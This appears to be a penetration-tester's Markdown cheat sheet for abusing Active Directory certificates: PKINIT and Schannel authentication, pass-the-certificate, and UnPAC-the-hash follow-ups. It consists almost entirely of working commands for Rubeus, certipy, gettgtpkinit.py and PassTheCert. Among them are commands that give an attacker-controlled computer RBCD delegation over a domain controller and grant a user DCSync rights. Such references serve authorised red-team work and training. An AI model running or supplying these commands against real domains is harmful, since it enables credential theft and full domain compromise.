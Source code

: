 # Pass the Certificate

## Tools: gettgtpkinit.py , Rubeus , certipy

# PKINIT

#### 1) Rubeus

 - Rubeus.exe asktgt /user:"USERNAME" /certificate:"PFX_FILE" [/password:"CERTIFICATE_PASSWORD] /domain:"FQDN_DOMAIN" /dc:"DC" /show

#### 2) certipy

 - certipy auth -pfx CRT_FILE -dc-ip DC_IP

#### 3) gettgtpkinit.py

 - gettgtpkinit.py -cert-pfx "PFX_FILE" [cert-pfx-pass "CERT_PASSWORD"] "FQDN_DOMAIN/USER "TGT_CCACHE_FILE"

### These 3 techniques can be performed for a Pass-the-Ticket attack

# Schannel (Secure Channel)

#### 1) certipy

 - certipy auth -pfx CRT_FILE -ldap-shell

 - add_computer

 - set_rbcd

#### 2) PassTheCert.py https://github.com/AlmondOffSec/PassTheCert.git

### Extract the .key and .crt files from the .pfx file

 - openssl pkcs12 -in USER_CERT.pfx -nocerts -out USER.key (Extract the .key file. Leave import password blank and put something like 1234 for PEM pass.)

 - openssl pkcs12 -in USER_CERT.pfx -clcerts -nokeys -out USER.crt (Extract the .crt file)

 - python3 passthecert.py -dc-ip DC_IP -crt USER.crt -key USER.key -domain DOMAIN.LOCAL -port 636 -action write_rbcd -delegate-to 'DOMAIN$' -delegate-from 'OUR_COMP$' (Authenticate against LDAPS using Schannel. In this example, we give the computer account we control RBCD, AKA delegation rights over the DC. Enter the PEM phrase we used when extracting the .key file earlier)

### With this technique, we can now perform an RBCD attack

# Pass-the-Certificate

### Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

## Windows

#### 1) Information about a cert file

 - certutil -v -dump admin.pfx

#### 2) From a base64 PFX

 - Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

#### 3) Grant DCSync rights to a user

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --elevate

#### 4) To restore

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --restore

### PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

 - openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"

### Certipy uses DER encryption. To generate a PFX for Rubeus, openssl can be used.

 - openssl rsa -inform DER -in key.key -out key-pem.key

 - openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM

 - openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx


## Linux

#### 1) Base64-encoded PFX certificate (string) (password can be set)

 - gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) PEM certificate (file) + PEM private key (file)

 - gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 3) PFX certificate (file) + password (string, optionnal)

 - gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 4) Using Certipy

 - certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'

 - certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"

### The ticket obtained can then be used to

#### 1) Authenticate with pass-the-cache

#### 2) Conduct an UnPAC-the-hash attack. This can be done with getnthash.py from PKINITtools.

#### 3) Obtain access to the account's SPN with an S4U2Self. This can be done with gets4uticket.py from PKINITtools.

## Alternate Method: PassTheCert https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py

#### 1) Extract key and cert from the pfx

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

#### 2) Elevate a user for DCSync with passthecert.py

 - passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
